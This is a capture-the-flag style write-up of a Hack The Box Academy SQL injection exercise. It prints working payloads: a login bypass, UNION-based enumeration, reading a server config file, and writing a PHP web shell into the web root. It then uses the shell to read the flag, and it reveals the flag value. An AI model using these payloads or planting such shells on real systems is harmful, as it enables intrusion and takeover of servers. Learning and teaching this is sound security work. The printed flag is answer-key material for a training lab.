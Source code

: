 # Write-up: SQL Injection Fundamentals

| Vulnerability | Difficulty | Platform | Key concepts |
| :--- | :--- | :--- | :--- |
| SQL Injection | Medium | Hack The Box Academy | SQLi Detection, `UNION`-based, Data exfiltration |

---

# Context

The company Inlanefreight has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

# Exercise

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

# Process

## Step 1
Try to access without credentials using:

```SQL
admin' or '1' = '1'
```

![Login screen with query to get access](./assets/login.png "Login Screen")

## Step 2
Once we have access to the site, we see a table with information.

We need to check how many columns this table has so we can do a `UNION` with another table.

In this case, it has 5, we know that because if we try to `ORDER BY 6-- `it throws an error, but with `ORDER BY 5-- ` it works.
![alt text](./assets/table_order_by.png "Title")

## Step 3
Now we want to know if we have super privileges, the current user, and the version of the DBMS.

To do that, we can use:
```SQL
cn' UNION SELECT 1, super_priv, CURRENT_USER(), @@VERSION, 5 FROM mysql.user WHERE user="root"-- 
```
![alt text](./assets/check_user.png "Title")

## Step 4
To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

We already have the `FILE` privilege enabled; we need to know the value of the `secure_file_priv`.
```SQL
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
![alt text](./assets/empty_secure_file_priv.png "Title")

As we notice, the second column is empty, which means the variable is **not** enabled.

## Step 5
A usual route for the configuration file in Debian/Ubuntu systems is `000-default.conf`

Now let's get the route to save the file with:
```SQL
cn' union select 1, load_file('/etc/apache2/sites-enabled/000-default.conf'), 3, 4, 5--
```
We are gonna get a large text with a DocumentRoot value, in this case the value is `/var/www/html`.
![alt text](./assets/doc_root.png "Title")

## Step 6
Save the file in the right path with:
```SQL
cn' union select 1,'<?php echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; ?>',3,4,5 into outfile '/var/www/html/dashboard/shell.php'-- 
```

## Step 7
Explore the files of the server with the `shell.php` file we just created:
http://94.237.57.115:30683/dashboard/shell.php?cmd=ls%20../../../../

## Step 8
Read the flag with 
http://94.237.57.115:30683/dashboard/shell.php?cmd=cat%20../../../../flag_cae1dadcd174.txt
![alt text](./assets/flag_path.png "Title")

### Result
> 528d6d9cedc2c7aab146ef226e918396

# Conclusion
This exercise demonstrates the critical importance of input validation. A simple unprotected search field can lead to a complete database compromise. Code-level remediation is the only effective solution.
